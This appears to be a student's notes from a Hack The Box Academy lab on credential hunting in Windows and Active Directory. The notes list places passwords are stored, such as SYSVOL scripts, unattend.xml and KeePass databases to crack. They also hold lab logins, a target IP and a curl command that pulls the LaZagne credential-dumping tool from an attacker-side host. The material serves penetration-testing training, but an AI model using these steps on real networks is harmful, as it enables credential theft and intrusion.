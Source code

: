 - Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems,

Bob , HTB_@cademy_stdnt!

https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.6/LaZagne.exe
10.129.151.24

curl -o LaZagne.exe http://10.10.14.167:80/LaZagne.exe
in: ubuntu
Password: FSadmin123


